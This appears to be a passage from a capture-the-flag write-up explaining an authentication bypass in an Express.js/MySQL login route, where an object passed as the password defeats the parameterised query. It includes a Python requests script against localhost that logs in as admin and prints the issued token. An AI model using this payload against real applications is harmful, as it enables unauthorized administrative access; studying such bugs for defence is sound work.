 When initializing the DB, it creates one account each with ADMIN privileges and INSPECTOR privileges.

```jsx
// app/routes/auth.js:9:17
router.post("/login", async (req, res) => {
  const { username, password } = req.body;

  const token = await login(username, password);

  if (!token) return res.status(401).json({ message: "login failed." });
  return res.json({ message: "Logged in successfully.", token });
});
```

`/auth/login` doesn't check the type of username and password.

```jsx
// app/models/userModel.js:21:41
const login = async (username, password) => {
  const query = "SELECT * FROM users WHERE username = ? AND password = ?";

  try {
    const results = await db.query(query, [username, password]);

    if (results.length === 0) return false;
    if (results[0].role === "BANNED") return false;

    payload = {
      username: username,
      role: results[0].role,
    };

    const token = generateToken(payload);
    return token;
  } catch {
    return false;
  }
};
```

Since we can input values of desired types, SQL Injection occurs.

[Express.js + MySQL SQLi(RAON - Core Research Team)](https://core-research-team.github.io/2020-10-01/Expressjs)

```python
import requests as req

url = 'http://localhost:3000'

admin = req.Session()

res = admin.post(f'{url}/auth/login', json={
    'username': 'admin',
    'password': {'password': '1'}
})
print(res.text)
# {"message":"Logged in successfully.","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6IkFETUlOIiwiaWF0IjoxNzUzMzE0NTM1LCJleHAiOjE3NTMzMTgxMzV9.-Nq_m0IvZFHE4_BF4eXr1Sag4NClSrg5qd5EVtA5TFQ"}

```

